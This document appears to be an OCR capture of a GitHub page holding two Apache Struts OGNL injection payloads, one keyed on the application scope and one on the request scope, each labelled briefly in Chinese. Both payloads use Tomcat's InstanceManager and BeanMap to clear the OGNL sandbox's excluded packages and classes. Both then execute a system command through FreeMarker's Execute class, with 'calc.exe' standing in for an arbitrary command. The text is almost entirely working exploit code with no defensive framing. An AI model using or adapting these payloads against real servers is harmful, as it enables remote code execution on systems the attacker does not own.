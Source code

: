 使用 application：
```
%{
(#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#application.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 

(#application.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#application.map2.setBean(#application.get('map').get('context')) == true).toString().substring(0,0) + 


(#application.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#application.map3.setBean(#application.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 

(#application.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#application.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
}
```
使用 request：
```
%{
(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 

(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 


(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 

(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
}
```